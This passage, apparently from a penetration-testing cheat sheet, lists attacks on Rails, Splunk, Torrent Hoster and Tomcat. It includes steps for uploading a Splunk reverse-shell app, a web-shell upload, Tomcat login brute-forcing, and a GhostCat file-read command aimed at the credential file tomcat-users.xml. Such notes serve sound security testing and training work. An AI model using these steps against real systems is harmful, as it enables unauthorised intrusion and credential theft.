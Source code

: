 	echo "Decrypted password: " . $decrypted . "\n";
	?>
	```
## Ruby on Rails

Vulnerable to mass assignment exploit: 

Endpoints with PATCH/PUT Capabilities → [Assignment Parameters](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md#exploiting-a-mass-assignment)

## Splunk

##### Shell Upload

1. Endpoint: `[URL]/manager/search/apps/local`   → Install app from File

2. Download [Create Shell Package](https://github.com/0xjpuff/reverse_shell_splunk)

3. Edit `/bin/rev.py` for Linux or `/bin/run.ps1` for Windows

4. Tar up

   ```bash
   tar -cvzf updater.tar.gz reverse_shell_splunk/
   ```

5. Start a listener

6. `Install app from file` and upload

## Torrent Hoster

### Exploit
- Upload a sample torrent file
- Change its image in a web shell

## Tomcat

### Enumeration

```bash
curl -s [URL]/docs | grep -i tomcat
```

Files to check:

- `/WEB-INF/web.xml`
- `/conf/tomcat-users.xml` -> contains credentials
- `/cgi` folder

Fingerprinting:

Invalid Path → `[URL]/Invalid` → Error String Version Disclosure → Exploit Research

### Unauthenticated Exploit
- **Login Bruteforcing** (common default credentials)
  - Metasploit:
    `use auxiliary/scanner/http/tomcat_mgr_login` / `mgr_brute.py` 
  - [mgr_brute.py](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
- **GhostCat** Unauthenticated LFI
  - [tomcat-ajp.lfi.py](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
		```bash
		python2 tomcat-ajp.lfi.py [URL] -p [PORT] -f conf/tomcat-users.xml
		```
  - Versions < `9.0.31`, `8.5.51`, `7.0.100`
- **401/403 Bypass**
	- **Breaking Parser Logic** -> proxy attacks